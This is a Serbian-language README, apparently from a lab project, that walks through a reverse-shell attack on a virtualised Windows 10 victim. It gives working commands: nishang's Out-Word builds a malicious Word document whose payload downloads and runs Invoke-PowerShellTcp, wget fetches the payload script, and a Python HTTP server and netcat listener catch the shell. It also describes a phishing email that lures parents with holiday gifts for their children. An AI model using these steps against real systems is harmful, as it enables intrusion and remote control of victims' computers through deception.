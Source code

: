 # Instrukcije za izvršeni napad

Reverse shell attack je napad u kojem računar žrtve inicira vezu ka računaru napadača (ne svojom voljom), omogućavajući napadaču pristup komandnoj liniji računara žrtve. U dokumentu se nalaze detaljne instrukcije za izvršeni napad na datom projektu.

## Sadržaj

- [Kratak opis načina izvođenja napada](#kratak-opis)
- [Kreiranje malicioznog word dokumenta](#kreiranje-malicioznog-word-dokumenta)
- [Kreiranje phishing mejla](#kreiranje-phishing-mejla)
- [Kreiranje HTTP Servera za osluškivanje](#kreiranje-http-servera-za-osluškivanje)
- [Primer uspešnog napada](#primer-uspešnog-napada)

## Kratak opis

Napad se sastoji iz tri koraka:

&ensp;&ensp;1. Kreiranje malicioznog word dokumenta preko kojeg će žrtva inicirati konekciju ka napadaču

&ensp;&ensp;2. Kreiranje phishing mejla preko kojeg će žrtva preuzeti maliciozni word dokument

&ensp;&ensp;3. Kreiranje HTTP servera preko kojeg će napadač osluškivati zahteve za konekcuju

Operativni sistemi žrtve i napadača podignuti su na virtuelnoj mašini kako bi se osigurala sigurnost. Operativni sistem žrtve je Windows 10, dok je operativni sistem napača Kali Linux. Softver koji je korišćen u kreiranju virtuelnih mašina je Oracle VM VirtualBox.

Za kreiranje malicioznog word dokumenta i HTTP servera koriste se shell skripte koje se mogu pronaći na sledećem GitHub repozitorijumu: [nishang](https://github.com/samratashok/nishang)

## Kreiranje malicioznog word dokumenta

Maliciozni word dokument kreiran je na operativnom sistemu žrtve (Windows 10). Koraci su sledeći:

&ensp;&ensp;1. Nakon pokretanja operativnog sistema, potrebno je isključiti real-time protection.

![Primer screenshot-a](\Screenshots\real_time_protection.png)

&ensp;&ensp;2. Zatim, potrebno je preuzeti nishang GitHub repozitorijum: [nishang](https://github.com/samratashok/nishang)

&ensp;&ensp;3. Ekstraktovati repozitorijum na željenu lokaciju, otvoriti direktorijum u powershell-u kao administrator i pozicionirati se u poddirektorijum Client.

![Primer screenshot-a](\Screenshots\positioning.png)

&ensp;&ensp;4. Uneti komandu koja će da dot source-uje dokument pomoću kojeg se kreira maliciozni word dokument (Out-Word.ps1).

`. .\Out-Word.ps1`

![Primer screenshot-a](\Screenshots\dot_sourced.png)

&ensp;&ensp;4. Nakon toga, potrebno je uneti komandu koja će kreirati maliciozni word dokument. Potrebno je izmeniti dve IP adrese u komandi na adresu napadača, kao i definisati putanju gde će se sačuvati fajl i dodeliti mu se proizvoljno ime.

`Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadString('http//127.0.0.1/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 127.0.0.1 -Port 4444" -OutputFile C:\Users\vboxuser\Desktop\malware_word_document.doc`

![Primer screenshot-a](\Screenshots\creating_malicious_file.png)

## Kreiranje phishing mejla

Nakon kreiranja malicioznog word dokumenta, potrebno je sastaviti phishing mejl, pronaći i prevariti žrtvu. U našem primeru, sastavljen je mejl koji traži od žrtve da preuzme dokument i u njega unese informacije svoje dece da bi deca mogla dobiti navode paketiće. Ideja je takva da bi se mejl slao u prazničnom periodu.

![Primer screenshot-a](\Screenshots\phishing_mail.png)

## Kreiranje HTTP Servera za osluškivanje

Server koji osluškuje konekcije od žrtve biće kreiran na operativnog sistemu napadača (Kali Linux). Koraci su sledeći:

&ensp;&ensp;1. U terminalu uneti komandu koja će preuzeti fajl sa skriptom za payload attack.

`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

![Primer screenshot-a](\Screenshots\downloading_payload_script.png)

&ensp;&ensp;2. Otvoriti preuzeti fajl i dodati sledeću liniju na kraj. Potrebno je IP adresu zameniti sa IP adresom napadača.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 4444`

![Primer screenshot-a](\Screenshots\modifying_payload_script.png)

&ensp;&ensp;3. Pokrenuti HTTP server i listener-a u dva zasebna terminala.

`sudo python3 -m http.server 80`

`nc -lvnp 4444`

![Primer screenshot-a](\Screenshots\starting_server.png)

## Primer uspešnog napada

Ako je sve podešeno kako je potrebno, uspešan napad bi trebao da izgleda:

![Primer screenshot-a](\Screenshots\attack_example.png)
